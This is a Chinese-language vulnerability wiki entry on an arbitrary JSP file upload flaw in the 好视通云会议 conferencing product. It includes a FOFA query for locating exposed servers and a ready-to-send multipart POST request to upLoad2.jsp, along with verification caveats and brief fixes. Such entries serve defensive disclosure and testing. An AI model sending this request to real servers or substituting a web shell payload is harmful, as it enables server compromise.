


# 好视通云会议 systemConfig upLoad2.jsp上传JSP

## 条目说明

- 对象与具体问题：好视通云会议；systemConfig upLoad2.jsp上传JSP
- 版本、配置及部署条件：版本未知；上传目录JSP解析条件
- 认证与权限前提：请求无Cookie，未证匿名
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 只有上传体和两图片，无文字返回路径/GET执行结果
- JSP输出test可为低风险执行验证但落盘需清理；服务器权限结论仍需服务账号边界
- 在野已知无来源，修复只联系厂商，无补丁号；规范HTTP围栏
- 与好视通读取不同接口，云会议与视频会议版本归属需统一产品树

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

好视通云会议upLoad2接口存在任意文件上传漏洞，攻击者可通过该漏洞上传任意文件到服务器上，包括木马后门文件，导致服务器权限被控制。

## 影响版本

好视通-云会议

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/loginCheck.do?accessType=isTrueCode" || app="好视通-云会议"

POC/EXP：

```http
POST /fm/systemConfig/upLoad2.jsp HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=1515df1sdfdsfddfs
Accept-Encoding: gzip

--1515df1sdfdsfddfs
Content-Disposition: form-data; name="file"; filename="cs.jsp"
Content-Type: application/octet-stream

<% out.print("test"); %>
--1515df1sdfdsfddfs--
```








## 修复方案

关闭互联网暴露面或接口设置访问权限。

联系厂家及时打补丁。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
